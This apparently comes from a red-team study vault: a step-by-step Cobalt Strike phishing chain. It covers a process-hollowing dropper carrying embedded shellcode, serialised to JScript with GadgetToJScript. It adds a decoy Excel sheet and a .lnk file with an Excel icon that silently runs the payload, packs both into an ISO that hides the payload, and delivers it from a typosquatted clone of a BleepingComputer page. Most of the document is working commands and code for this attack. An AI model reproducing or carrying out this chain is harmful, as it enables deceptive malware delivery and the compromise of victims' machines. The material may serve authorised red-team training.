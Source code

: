 
#### Dropper

1. Make directory for dependencies for infection chain
2. Create a Visual Studio **Class Library (.NET Framework)**

> Place in the same directory: Checked

3. Add _http_x64.xprocess.bin_ (shellcode) as an embedded resource.
	1. Right-click on the project in the Solution Explorer and go to **Add > Existing Item**.  
	2. Select a payload file to embed in the dropper, e.g. `http_x64.exe`
	3. Then in its properties, change the **Build Action** to **Embedded Resource**.

4. Use the linked process hollowing dropper [source code](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F1.%20Initial%20Compromise%2FFoothold%20Establishment%2FDroppers%2FProcess%20Hollowing%20Dropper) in Class1.cs
5. Build the project to a DLL in Release mode.

6. Serialise the DLL using G2JS.
```powershell
C:\Tools\GadgetToJScript\GadgetToJScript\bin\Release\GadgetToJScript.exe -a .\source\repos\MyDropper\bin\Release\MyDropper.dll -w js -b -o C:\Payloads\deals\deals
```

#### Decoy, Trigger, Container

1. Create decoy Excel spreadsheet file and save in deals directory

> **Remove the authors from the document**

```xml
id  product      discount  code
1   Prodder      56%       54473-150
2   Viva         9%        0378-5713
3   Aerified     22%       43742-0187
4   Zaam-Dox     26%       35356-687
5   Rank         41%       63323-300
6   Pannier      61%       50804-302
7   Wrapsafe     32%       67046-223
8   Voltsillam   58%       55910-721
9   Ventosanzap  4%        0485-0051
10  Otcom        54%       36987-2281
```

2.  Create new `.lnk` file with the following

>  This will start command prompt, open the decoy and start payload in background

```powershell
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\deals\deals.xlsx.lnk")
$lnk.TargetPath = "%COMSPEC%"
$lnk.Arguments = "/C start deals.xlsx && wscript deals.js"
$lnk.IconLocation = "%ProgramFiles%\Microsoft Office\root\Office16\EXCEL.EXE,0"
$lnk.Save()
```

3. In a wsl shell use PackMyPayload to  pack the files into an `iso`.

> Hide the decoy and payload. Only show trigger

```bash
python3 /mnt/c/Tools/PackMyPayload/PackMyPayload.py -H deals.xlsx,deals.js /mnt/c/Payloads/deals/ /mnt/c/Payloads/deals/deals.iso
```

#### Delivery
1. Host the ISO on Cobalt Strike's built-in web server.
	1.  Go to **Site Management > Host File**.
	2.  File: C:\Payloads\deals\deals.iso
	3.  Local URI: /deals.iso
	4.  Local Host: www.bleepincomputer.com
	5.  Click **Launch**.
![[Pasted image 20250702212549.png]]

2. Clone a legitimate web page (**Site Management > Clone Site**).
	1.  Clone URL: https://deals.bleepingcomputer.com
	2.  Local URI: /deals
	3.  Local Host: www.bleepincomputer.com
	4.  Attack: _deals.iso_
	5.  Click **Clone**.
![[Pasted image 20250702212802.png]]

```
iexplore www.bleepincomputer.com
```